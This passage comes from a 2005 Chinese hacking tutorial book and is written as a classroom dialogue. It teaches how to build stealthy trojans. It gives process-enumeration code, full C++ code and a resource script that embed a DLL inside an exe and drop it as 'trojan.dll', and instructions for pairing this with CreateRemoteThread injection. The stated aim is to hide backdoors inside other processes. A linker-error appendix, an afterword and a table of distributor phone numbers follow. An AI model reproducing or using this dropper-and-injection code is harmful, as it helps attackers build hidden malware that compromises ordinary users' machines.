    PROCESSENTRY32 pe32 = {0};
    int i;

    hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    // 打开进程快照
    if (hProcessSnap == (HANDLE)-1)
    {
        printf("\nCreateToolhelp32Snapshot() Error: %d", GetLastError());
        return 0;
    }

    pe32.dwSize = sizeof(PROCESSENTRY32);
    if (Process32First(hProcessSnap, &pe32)) // 开始枚举进程
    {
        do
        {
            strcpy(buffer, pe32.szExeFile);
            ...
        }
```

## 第三章 黑客编程实例

```c
for(i = strlen(buffer); i > 0; i--)  // 截取进程名
    if(buffer[i] == '\\')
        break;
if(!strcmp(pid, &buffer[i]))
    // 判断是否和提供的进程名相等，是，则返回进程的ID
    return pe32.th32ProcessID;
}
while(Process32Next(hProcessSnap, &pe32));  // 继续枚举进程
}
else
{
    printf("\nProcess32First() Error: %d", GetLastError());
    return 0;
}
CloseHandle(hProcessSnap);  // 关闭系统进程快照的句柄
return 0;
}
```

“大家现在明白线程插入有多厉害了吗？这可是现在木马的流行技术哦！”

“我有一个问题，如果我们真的编写这样的线程插入木马，那么在木马发布时，服务端总不是要有一个 exe 文件和一个 dll 文件？这样好像不太专业啊！有什么办法可以去掉那个 dll 文件呢？”我是良民说道。

“嗯！这位同学的建议很好！先让我想想，要去掉 dll 文件好像比较麻烦。有另外一种线程插入方法可以不用 dll 文件，但用到的每个 API 函数都要利用 typedef 来重写函数，这种办法虽然可以不用 dll 文件，但如果要把所有的 API 函数都重写一遍的话，不仅容易出错，而且工作量也很大！所以我们用 dll 是比较好的。至于你说有一个 exe 和一个 dll 显得不专业，那我们就来看看有没有办法把 dll 都放到 exe 里去。”

“是啊，把 dll 放到 exe 里面去，使用时释放出来不就行了？”多多喵也提议道。

“对，就是使用这个办法。我们可以利用十六进制文本编辑器把 dll 的二进制代码保存起来，再把这些代码放到我们的程序中去，然后把这些二进制代码写到硬盘上，这样就可得到一个 dll。但这种办法比较麻烦，而且容易出错，下面我介绍一种较好的办法：就是把 dll 作为‘资源’嵌入到 exe 文件中。”

“什么是‘资源’啊？怎样把 dll 作为‘资源’嵌入到 exe 文件中呢？”马蜂窝问道。

“我们知道，Windows 应用程序中包括执行代码和程序资源两部分。例如，应用程序的位图、图标、对话框、字串表等都被存储在应用程序资源中。另外，我们还可把自定义资源（例如 wav、swf、rm）以二进制形式保存和编译，并链接到应用程序中，在使用时再释放出来。要实现这个功能，首先要将这些文件作为程序资源放进资源文件中；然后，在程序执行数据文件加载时，从资源内存中读取这些文件。”

“读取数据的关键在于：首先要获得具有所需资源 ID 号的资源内存块地址指针，然后根据不同的数据类型对地址指针进行强制类型转换。获得具有所需资源 ID 号的资源内存块地址指针主要用到几个资源管理的 API 函数，包括 FindResource、LoadResource、SizeOfResource、LockResource 以及文件创建 CreateFile、写文件 WriteFile 函数。具体包括以下几个步骤：”

- 1. 首先获取当前应用程序 .EXE 的文件句柄，该句柄用于在 .EXE 文件中寻找资源。

```c
HINSTANCE hInstance = GetModuleHandle(NULL);
```

- 2. 接着，用以上获得的应用程序文件句柄 hInstance 作为参数之一，来寻找具有指定资源 ID 和指定资源类型的资源文件中的资源位置，返回值为有名称的资源：

```c
HRSRC hResInfo = FindResource(hInstance,
    MAKEINTRESOURCE(ID_MAGICDEL_DLL),
    MAKEINTRESOURCE(RC_BINARYTYPE));
```

- 3. 然后从 hInstance 标识的可执行文件中装入 hResInfo 所指定的资源，该函数返回值标识了用于接受资源数据的全局数据块：

```c
HGLOBAL hgRes = LoadResource(hInstance, hResInfo);
```

- 4. 最后锁定 hResInfo 所标定的内存块，并返回所标定内存块的虚拟内存地址。如果该资源被成功锁定，则返回值指向该资源开始处的第一个字节：

```c
void *pVRes = LockResource(hgRes);
```

- 5. 接下来就可以用 CreateFile() 来创建 dll 文件了。

“下面我们来看看具体的操作。首先，把以下代码保存为 cpp 文件：”

```cpp
// extradll.cpp
#include <windows.h>
#include <stdio.h>
#include "resource.h"

void WriteResourceToFile(char const *filename)
{
    HINSTANCE hInstance = GetModuleHandle(NULL);
    HRSRC hResInfo = FindResource(hInstance,
        MAKEINTRESOURCE(ID_MAGICDEL_DLL),
        MAKEINTRESOURCE(RC_BINARYTYPE));
    HGLOBAL hgRes = LoadResource(hInstance, hResInfo);
    void *pVRes = LockResource(hgRes);
    DWORD cbRes = SizeOfResource(hInstance, hResInfo);
    // 创建文件
    HANDLE hFile = CreateFile(filename, GENERIC_WRITE, 0, 0, CREATE_ALWAYS,
        FILE_ATTRIBUTE_NORMAL, 0);
    DWORD cbWritten;
    WriteFile(hFile, pVRes, cbRes, &cbWritten, 0);
    // 把 dll 代码写进文件
    CloseHandle(hFile);
}

int main(void)
{
    WriteResourceToFile("trojan.dll");
    // 创建 trojan.dll
    return 0;
}
```

> “上面的代码是从 exe 文件本身读取 dll 资源。但是，我们如何把 dll 作为资源链接到 exe 文件自身中去呢？下面将介绍这个过程：”

- 1. 首先，我们用记事本创建一个 res.rc 文件，里面的内容如下：

```rc
// res.rc
#include "resource.h"
ID_MAGICDEL_DLL RC_BINARYTYPE hacker.dll
```

“hacker.dll”是要嵌入 exe 的 dll 文件，要与 res.rc 在同一目录；“ID_MAGICDEL_DLL”为数据文件的资源 ID 号；“RC_BINARYTYPE”为资源类名；“DISCARDABLE”表示该资源是可抛弃型的；而“hacker.dll”表示数据文件 hacker.dll 处于当前工程文件所在文件夹下，供应用程序编译连接时加载数据用。

- 2. 接着用 VC6.0 打开 extradll.cpp，编译 extradll.cpp，工作区里如图 3-11。
  - 右击“extradll files”，选择“Add files to project”，然后选中刚才编辑的 res.rc 文件。



- 3. 把 exe 编译成 Release 模式。

“好了！进入 Release 文件夹，双击 extradll.exe，是不是解出一个 trojan.dll 文件？这个文件其实就是 hacker.dll！对于其它类型的文件，方法是一样的。通过这种方法还可以把一个 exe 文件嵌入到另外一个 exe 文件中，运行时把这个文件释放出来。大家现在应该明白为什么有些木马只有客户端，但可以在客户端生成服务器端了吧？其实就是把先写好的服务器端嵌入到客户端中去。”

“哦！原来如此！以后我们写木马也利用这种方法！”冰眼说道。

“现在我们的 exe 文件和 dll 文件就合二为一了，够专业吧？呵呵！”

“不错！现在我们就可利用 dll 来进行远程插入了。”蓝狐高兴地说。

“我们回顾一下整个流程：首先把 exe 中的 dll 解出来，然后利用 CreateRemoteThread() 来创建远程线程。上面释放 dll 的 exe 程序没有创建远程线程的功能，大家只要在 WriteResourceToFile("trojan.dll"); 这句后添加插入 dll 的代码就 OK 了。这样一来，既实现了利用 dll 的插入方式，又免去了那个可恶的 dll 文件。原来世界可以更美好！”

“好了，关于线程插入技术的介绍就到此为止啦。大家可以让自己的程序长出翅膀飞进别的进程里来实现进程隐藏了，希望大家可以运用好这种技术，让自己的后门或木马可以真正‘隐形’了。”

——完——

## 附录

### 链接错误（LNK2001）的原因

用 VC 在编译 C/C++ 时经常会遇到链接错误。链接错误很令人烦恼，编译可以通过，但是不能连接成 exe 文件。初学者在学习 VC++ 的过程中，遇到的 LNK2001 错误的错误消息主要为：

```
unresolved external symbol "symbol"

（不确定的外部“符号”）。
```

如果连接程序不能在所有的库和目标文件内找到所引用的函数、变量或标签，将产生此错误消息。一般来说，发生错误的原因有两个：一是所引用的函数、变量不存在、拼写不正确或者使用错误；其次可能使用了不同版本的连接库。

以下是可能产生 LNK2001 错误的原因：

#### 一、由于编码错误导致的 LNK2001

- 1. 不相匹配的程序代码或模块定义（.DEF）文件能导致 LNK2001。例如，如果在 C++ 源文件内声明了一变量“var1”，却试图在另一文件内以变量“VAR1”访问该变量，将发生该错误。
- 2. 如果使用的内联函数是在 .CPP 文件内定义的，而不是在头文件内定义，将导致 LNK2001 错误。
- 3. 调用函数时如果所用的参数类型同函数声明时的类型不符，将会产生 LNK2001。
- 4. 试图从基类的构造函数或析构函数中调用虚拟函数时，将会导致 LNK2001。
- 5. 要注意函数和变量的可公用性，只有全局变量、函数是可公用的。静态函数和静态变量具有相同的使用范围限制。当试图从文件外部访问任何没有在该文件内声明的静态变量时，将导致编译错误或 LNK2001。函数内声明的变量（局部变量）只能在该函数的范围内使用。

C++ 的全局常量只有静态连接性能。这不同于 C，如果试图在 C++ 的多个文件内使用全局变量，也会产生 LNK2001 错误。一种解决的方法是：需要时在头文件中加入该常量的初始化代码，并在 .CPP 文件中包含该头文件；另一种方法是使用时给该变量赋以常数。

#### 二、由于编译和链接的设置而造成的 LNK2001

- 1. 如果编译时使用的是 /NOD（/NODEFAULTLIB）选项，程序所需要的运行库和 MFC 库在连接时由编译器写入目标文件模块，但除非在文件中明确包含这些库名，否则这些库不会被链接进工程文件。在这种情况下使用 /NOD 将导致错误 LNK2001。
- 2. 如果没有为 wWinMainCRTStartup 设定程序入口，在使用 Unicode 和 MFC 时将得到“unresolved external on _WinMain@16”的 LNK2001 错误信息。
- 3. 使用 /MD 选项编译时，既然所有的运行库都被保留在动态链接库之内，源文件中对“func”的引用，在目标文件里即对“__imp__func”的引用。如果试图使用静态库 LIBC.LIB 或 LIBCMT.LIB 进行连接，将在 __imp__func 上发生 LNK2001；如果不使用 /MD 选项编译，在使用 MSVCxx.LIB 连接时也会发生 LNK2001。
- 4. 使用 /ML 选项编译时，如用 LIBCMT.LIB 链接，会在 _errno 上发生 LNK2001。
- 5. 当编译调试版的应用程序时，如果采用发行版模式库进行连接，也会产生 LNK2001；同样，使用调试版模式库连接发行版应用程序时也会产生相同的问题。
- 6. 不同版本的库和编译器的混合使用也能产生问题，因为新版的库里可能包含早先的版本没有的符号和说明。
- 7. 不正确的 /SUBSYSTEM 或 /ENTRY 设置也能导致 LNK2001。

## 后记

在网上遇到很多希望学习黑客编程的朋友，他们很虚心地请教如何能学好黑客编程，很多高手也不时地会抽出时间来回答一下。然而，高手们都有自己的事情要做，不可能回答所有人的问题。而且，很多新手问的都是非常基本的问题，所以常常得不到回答。渐渐地，就慢慢失去了兴趣。

笔者也是这样走过来的，深知道自己一个人摸索会走很多弯路。所以希望能够编一本较基础的教程，让新手快速入门！

在《非安全》编辑的大力支持和指导下，我根据自己学习的经验，用自己开发过的黑客软件作为实例，完成了这本基础教程——《Hack 编程实例精讲》。

写作过程是辛苦的，但也是愉快的。有时你要为一个小小的错误付出一晚上的精力来查找和解决它。然而，当你解决困难后，一种莫名的成就感油然而生，尤其是想到某一天，你这个程序可能会广为流传……

在此，我要特别感谢土豆，是他给了我一个这样的锻炼机会。在他的指导下，我学到了以前没接触过的知识。还有黑瓣子，他及时地帮我检查出了书中的不少错误，给我提出了不少修改意见。另外，还要感谢我的班主任，他帮我向学院申请，让我可以带电脑回宿舍（我们学院规定大一不准带电脑），否则，不知道该如何来完成这本书。

最后，要感谢广大读者，谢谢您的支持和信任，你们的肯定是我写作的最大动力！

宋柏思

2005年 于广东工业大学

## 《黑客防线》渠道联系电话

| 城市 | 电话 |
|---|---|
| 北京 | 010-81215606 |
| 上海 | 021-63780159 |
| 成都 | 028-86667213 |
| 广州 | 020-34297992 |
| 杭州 | 0571-88256366 |
| 沈阳 | 024-23924138 |
| 哈尔滨 | 0451-88342337 |
| 天津 | 022-27699711 |
| 西安 | 029-82100802 |
| 南京 | 025-84714500 |
| 石家庄 | 0311-7827341 |
| 长沙 | 0731-2252951 |
| 济南 | 0531-2903395 |
| 大连 | 0411-84600173 |
| 长春 | 0431-2731957 |
| 邢台 | 0319-3176769 |
| 沧州 | 0317-3075668 |
| 保定 | 0312-2038408 |
| 唐山 | 0315-2814874 |
| 秦皇岛 | 0335-3691263 |
| 张家口 | 0313-2019823 |
| 包头东 | 0472-4181372 |
| 包头 | 0472-2516902 |
| 通辽 | 0475-8218791 |
| 乌鲁木齐 | 0991-4821133 |
| 洛阳 | 0379-3173670 |
| 合肥 | 0551-2611465 |
| 常州 | 0519-8117080 |
| 宁波 | 0574-87660206 |
| 汉口 | 027-85498139 |
| 重庆 | 023-67051833 |
| 福州 | 0591-83349086 |
| 厦门 | 0592-5095042 |
| 深圳 | 0755-82264081 |
| 贵阳 | 0851-5984895 |
| 昆明 | 0871-4168505 |
| 柳州 | 0772-2827602 |
| 青岛 | 0532-3838744 |
| 兰州 | 0931-8513488 |
| 衡水 | 0318-7902322 |
| 太原 | 0351-7041968 |
| 徐州 | 0516-2828156 |
| 苏州 | 0512-65296805 |
| 十堰 | 0719-8670354 |
| 抚顺 | 0413-2600836 |
| 牡丹江 | 0453-6269971 |
| 邯郸 | 0310-3090822 |
| 任丘 | 0317-2706244 |
| 大同 | 0352-2036975 |
| 呼和浩特 | 0471-6926041 |
| 阜阳 | 0558-2271183 |
| 无锡 | 0510-2736040 |
| 宜昌 | 0717-6454941 |
| 桂林 | 0773-2859586 |
| 郑州 | 0371-8203856 |